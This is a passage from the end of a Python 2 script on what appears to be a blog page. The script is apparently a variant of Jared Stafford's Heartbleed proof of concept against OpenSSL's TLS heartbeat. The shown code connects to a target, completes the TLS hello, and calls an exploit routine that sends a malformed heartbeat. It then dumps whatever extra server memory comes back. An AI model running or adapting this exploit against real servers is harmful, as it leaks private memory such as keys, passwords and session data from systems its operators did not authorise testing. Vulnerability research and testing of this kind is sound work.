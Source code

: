         print 'No heartbeat response received, server likely not vulnerable'
        return False

    if contentType == 24:
        print 'Received heartbeat response:'
        dump(payload)
        if len(payload) > 3:
            print 'WARNING: server returned more data than it should - server is vulnerable!'
        else:
            print 'Server processed malformed heartbeat, but did not return any extra data.'
        return True

    if contentType == 21:
        print 'Received alert:'
        dump(payload)
        print 'Server returned error, likely not vulnerable'
        return False
  
def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return
  
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(helloPacket)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    # Receive packets until we get a hello done packet
    while True:
        contentType, version, payload = receiveTLSMessage(s)
        if contentType == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if contentType == 22 and ord(payload[0]) == 0x0E:
            break
  
    print 'Sending heartbeat request...'
    sys.stdout.flush()
    
    # Jared Stafford's version sends heartbleed packet here too. It may be a bug.
    exploit(s)
  
if __name__ == '__main__':
    main()
{% endhighlight %}

